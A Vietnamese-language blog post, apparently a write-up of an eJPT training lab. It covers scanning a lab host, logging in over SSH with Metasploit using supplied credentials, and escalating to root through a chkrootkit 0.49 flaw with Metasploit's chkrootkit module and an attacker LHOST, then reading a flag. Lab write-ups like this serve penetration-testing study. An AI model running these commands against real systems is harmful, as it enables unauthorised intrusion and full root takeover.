 ```yaml
---
title: eJPT Privilege Escalation - Rootkit Scanner
published: 2025-06-08
tags: [eJPT, Linux, Privilege Escalation, Pentest]
category: 'Learning'
description: Privilege Escalation using Rootkit Scanner
draft: false 
image: "/assets/post_image/ejpt.png"
---
```



# EJPT LAB: Privilege Escalation - Rootkit Scanner 
> Lỗ hổng trong `chkrootkit 0.49` là một lỗ hổng leo thang đặc quyền cục bộ (local privilege escalation) nghiêm trọng, xuất phát từ cách công cụ này thực thi một số lệnh hệ thống với quyền root mà không kiểm tra kỹ đường dẫn (PATH). Điều này cho phép kẻ tấn công – nếu đã có quyền truy cập như một người dùng thông thường – chèn mã độc vào thư mục như `/tmp`, sau đó chờ `chkrootkit` được chạy bởi cron hoặc dịch vụ khác. Khi đó, mã độc sẽ được thực thi với quyền root, từ đó cho phép kiểm soát toàn bộ hệ thống.
Lỗ hổng này đã được ghi nhận trong các hệ thống sử dụng `chkrootkit` phiên bản 0.49 trở về trước và là ví dụ điển hình cho việc chạy công cụ bảo mật với quyền cao có thể dẫn đến hậu quả nghiêm trọng nếu không được cấu hình an toàn.


## I. Truy cập vào máy Kali
Truy cập vào đường dẫn phòng lab đã được cung cấp để khởi động máy Kali.
![image](https://hackmd.io/_uploads/SyKVMkfmeg.png)

## II. Kiểm tra kết nối đến máy mục tiêu
Sử dụng lệnh `ping` để kiểm tra xem máy mục tiêu có đang hoạt động hay không:
```bash
ping -c 4 demo.ine.local
```
Lệnh này gửi 4 gói tin ICMP đến địa chỉ `demo.ine.local`. Nếu có phản hồi (reply), nghĩa là máy mục tiêu đang bật và có thể truy cập được – tiền đề để thực hiện các cuộc tấn công.
![image](https://hackmd.io/_uploads/B1MwGkfmxl.png)

## III. Quét cổng với Nmap
Ta sẽ quét các cổng đang mở để biết dịch vụ nào đang chạy trên máy mục tiêu:

```bash
nmap -sS -sV demo.ine.local
```
![image](https://hackmd.io/_uploads/rJE_zkzQll.png)


- `-sS`: Quét theo kiểu SYN (stealth scan), giúp quét nhanh và tránh bị hệ thống phát hiện do không hoàn tất bắt tay TCP.
- `-sV`: Phát hiện phiên bản dịch vụ đang chạy trên các cổng.

Thông tin này cực kỳ quan trọng trong giai đoạn **trinh sát (reconnaissance)** để xác định các điểm có thể khai thác.


## IV. Khai thác SSH với Metasploit

Sau khi biết được dịch vụ SSH đang mở, và có sẵn thông tin đăng nhập (`jackie:password`), ta sẽ sử dụng Metasploit – framework khai thác mạnh mẽ – để đăng nhập từ xa.

```bash
msfconsole
```
![image](https://hackmd.io/_uploads/HJT9fJzQeg.png)

Sau đó dùng mô-đun đăng nhập SSH:

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS demo.ine.local
set USERNAME jackie
set PASSWORD password
exploit
```

Nếu đăng nhập thành công, bạn đã **chiếm được quyền điều khiển máy mục tiêu với vai trò người dùng `jackie`**.
![image](https://hackmd.io/_uploads/H1CAM1fQxe.png)


## V. Tương tác với phiên shell

Khi phiên SSH đã được mở, bạn có thể tương tác trực tiếp với hệ thống:

```bash
sessions -i 1
```
![image](https://hackmd.io/_uploads/rJFyQyfQll.png)

Chạy:

```bash
ps aux
```
![image](https://hackmd.io/_uploads/rJOlQyMmex.png)

Lệnh này liệt kê toàn bộ các tiến trình đang chạy. Nếu thấy các dịch vụ hệ thống như `cron`, hoặc script lạ chạy định kỳ, có thể đó là điểm bắt đầu để thực hiện **leo thang đặc quyền (privilege escalation)**.

## VI. Phân tích script đáng ngờ

Ta thấy một bash script đang chạy có tên `/bin/check-down`. Kiểm tra nội dung nó:

```bash
cat /bin/check-down
```
![image](https://hackmd.io/_uploads/SkKWXkfXgg.png)

Script này đang chạy công cụ `chkrootkit` mỗi 60 giây. Đây là một công cụ quét rootkit phổ biến, nhưng **phiên bản cũ (0.49)** của nó có lỗ hổng bảo mật nghiêm trọng.

Xác định phiên bản và vị trí thực thi:

```bash
command -v chkrootkit
/bin/chkrootkit -V
```
![image](https://hackmd.io/_uploads/HJpGmJfmxl.png)

## VII. Khai thác leo thang đặc quyền với chkrootkit

Ta tra cứu với `searchsploit` để tìm khai thác cho chkrootkit:

```bash
searchsploit chkrootkit 0.49
```
![image](https://hackmd.io/_uploads/BkvmQJfQll.png)

Kết quả cho thấy có tồn tại **lỗ hổng leo thang đặc quyền (local privilege escalation)** trong phiên bản này. Lý do là `chkrootkit` chạy với quyền root và thực thi các file từ đường dẫn không an toàn (như `/tmp`), dẫn đến có thể chèn mã độc để chiếm quyền root.


## Tấn công và đọc flag

**Quan trọng:** Không đóng phiên shell đang tương tác. Dùng `CTRL+Z` để gửi về nền.

Sử dụng mô-đun Metasploit:

```bash
use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set session 1
set LHOST 192.60.22.2
exploit
```

Khi khai thác thành công, bạn đã trở thành người dùng `root` trên máy mục tiêu – mức cao nhất. Bây giờ bạn có thể truy cập mọi file, ví dụ như đọc cờ (flag):

```bash
cat /root/flag
```
![image](https://hackmd.io/_uploads/BJAHQkz7le.png)

